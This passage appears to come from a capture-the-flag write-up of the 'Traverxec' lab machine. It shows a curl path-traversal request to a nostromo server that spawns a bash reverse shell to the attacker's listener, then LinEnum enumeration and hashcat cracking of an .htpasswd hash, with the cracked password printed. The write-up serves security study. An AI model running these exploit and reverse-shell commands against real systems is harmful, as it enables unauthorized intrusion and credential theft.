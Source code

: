 ### Shell

Now that I can run commands, I’ll run a command to get a shell:

```

root@kali# curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'

```

That command just hangs, but on a fresh `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.165.
Ncat: Connection from 10.10.10.165:53000.
bash: cannot set terminal process group (458): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Priv: www-data –> david

### Find SSH Key

After some cursory looks around, I decided to upload and run [LinEnum](https://github.com/rebootuser/LinEnum). One of the things that it pointed out was a `.htpasswd` file:

```

[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/  

```

I pulled that back and started cracking it with `hashcat`:

```

root@kali# time hashcat -m 500 htpasswd /usr/share/wordlists/rockyou.txt --username --force
...[snip]...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me    
...[snip]...

```

While in the `/var/nostromo/conf` directory, I started taking a look at the configuration file, `nhttpd.conf`:
